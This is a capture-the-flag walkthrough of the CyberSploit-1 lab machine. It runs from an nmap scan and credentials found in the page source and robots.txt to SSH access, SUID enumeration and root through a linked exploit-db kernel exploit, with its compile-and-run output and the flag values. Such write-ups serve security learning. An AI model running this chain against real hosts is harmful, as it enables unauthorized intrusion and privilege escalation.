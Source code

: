 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


## **Description ⤵️**

>
💡 [CyberSploit-1](https://vulnhub.com/entry/cybersploit-1,506/)
<br>
THIS IS A MACHINE FOR COMPLETE BEGINNER , THERE ARE THREE FALGS AVAILABLE IN THIS VM.
<br>
FROM THIS VMs YOU WILL LEARN ABOUT ENCODER-DECODER & EXPLOIT-DB.
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.195.92
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.195.92 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-28 20:36 IST
Nmap scan report for 192.168.195.92
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled.png)

After checking the source code I got this →

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled%201.png)

```bash
username:itsskv
```

Now lets check robots.txt file →

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled%202.png)

Now after decoding this base64 encoding I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
cybersploit{youtube.com/c/cybersploit}
```

Now lets use this ⬆️ above string to use as a password for ssh login So, lets give it a try at least →

## SHELL ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ ssh itsskv@192.168.195.92                    
The authenticity of host '192.168.195.92 (192.168.195.92)' cant be established.
ECDSA key fingerprint is SHA256:19IzxsJJ/ZH00ix+vmS6+HQqDcXtk9k30aT3K643kSs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.195.92' (ECDSA) to the list of known hosts.
itsskv@192.168.195.92's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$
```

Now when I am inside the shell lets try different things to get to root →

```bash
itsskv@cybersploit-CTF:~$ cat local.txt 
d19dff81aa1a2e22550afd3b583ea580
itsskv@cybersploit-CTF:~$
itsskv@cybersploit-CTF:~$ cat flag2.txt 
Your flag is in another file...
itsskv@cybersploit-CTF:~$
```

Lets check the SUIDs and GUIDs files →

```bash
itsskv@cybersploit-CTF:/$ find / -perm -u=s -type f 2>/dev/null
/bin/fusermount
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/ping6
/usr/bin/newgrp
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/arping
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mtr
/usr/bin/lppasswd
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/at
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/pt_chown
itsskv@cybersploit-CTF:/$ find / -perm -g=s -type f 2>/dev/null
/sbin/unix_chkpwd
/usr/bin/mlocate
/usr/bin/X
/usr/bin/crontab
/usr/bin/chage
/usr/bin/dotlockfile
/usr/bin/bsd-write
/usr/bin/ssh-agent
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/mail-touchlock
/usr/bin/expiry
/usr/bin/at
/usr/bin/wall
/usr/sbin/uuidd
/usr/games/gnomine
/usr/games/mahjongg
/usr/lib/libvte-2.90-9/gnome-pty-helper
/usr/lib/utempter/utempter
/usr/lib/evolution/camel-lock-helper-1.2
itsskv@cybersploit-CTF:/$
```

Now after checking so many things lets look for Kernel Exploitation →

```bash
itsskv@cybersploit-CTF:/home/cybersploit$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:/home/cybersploit$
```

After reconing online I got an exploit → [https://www.exploit-db.com/raw/37292](https://www.exploit-db.com/raw/37292)

Lets try it out now →

```bash
itsskv@cybersploit-CTF:/tmp$ nano explit.c
itsskv@cybersploit-CTF:/tmp$ chmod +x explit.c
itsskv@cybersploit-CTF:/tmp$ gcc explit.c -o shell
itsskv@cybersploit-CTF:/tmp$ ./shell
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# /bin/bash -i
root@cybersploit-CTF:/tmp# whoami
root
root@cybersploit-CTF:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
root@cybersploit-CTF:/tmp# cd /root
root@cybersploit-CTF:/root# ls -al
total 136
drwx------ 20 root root  4096 Jun 28 20:24 .
drwxr-xr-x 23 root root  4096 Sep 22  2020 ..
-rw-------  1 root root  3540 Sep 23  2020 .ICEauthority
-rw-------  1 root root     0 Sep 23  2020 .Xauthority
-rw-------  1 root root     0 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  3106 Apr 19  2012 .bashrc
drwx------ 13 root root  4096 Sep  3  2020 .cache
drwx------  9 root root  4096 Sep  3  2020 .config
drwx------  3 root root  4096 Jun 27  2020 .dbus
-rw-r--r--  1 root root    25 Sep 23  2020 .dmrc
drwx------  3 root root  4096 Sep 23  2020 .gconf
drwx------  4 root root  4096 Sep  3  2020 .gnome2
-rw-r--r--  1 root root   107 Sep 23  2020 .gtk-bookmarks
drwx------  2 root root  4096 Sep  3  2020 .gvfs
drwxr-xr-x  3 root root  4096 Sep  4  2020 .local
drwx------  3 root root  4096 Sep  3  2020 .mission-control
drwx------  4 root root  4096 Sep  3  2020 .mozilla
-rw-r--r--  1 root root   140 Apr 19  2012 .profile
drwx------  2 root root  4096 Sep 23  2020 .pulse
-rw-------  1 root root   256 Jun 25  2020 .pulse-cookie
-rw-------  1 root root 11459 Sep 23  2020 .xsession-errors
-rw-------  1 root root 11011 Sep 22  2020 .xsession-errors.old
drwxr-xr-x  2 root root  4096 Sep  3  2020 Desktop
drwxr-xr-x  2 root root  4096 Sep  3  2020 Documents
drwxr-xr-x  2 root root  4096 Sep  3  2020 Downloads
drwxr-xr-x  2 root root  4096 Sep  3  2020 Music
drwxr-xr-x  2 root root  4096 Sep  3  2020 Pictures
drwxr-xr-x  2 root root  4096 Sep  3  2020 Public
drwxr-xr-x  2 root root  4096 Sep  3  2020 Templates
drwxr-xr-x  2 root root  4096 Sep  3  2020 Videos
-rw-r--r--  1 root root    32 Sep  4  2020 finalflag.txt
-rw-r--r--  1 root root    33 Jun 28 20:24 proof.txt
root@cybersploit-CTF:/root# cat finalflag.txt 
Your flag is in another file...
root@cybersploit-CTF:/root# cat proof.txt 
59595564ca25b9405d338daab9170f4c
root@cybersploit-CTF:/root# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
3: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:50:56:ba:1f:90 brd ff:ff:ff:ff:ff:ff
    inet 192.168.195.92/24 brd 192.168.195.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feba:1f90/64 scope link 
       valid_lft forever preferred_lft forever
root@cybersploit-CTF:/root#
```

---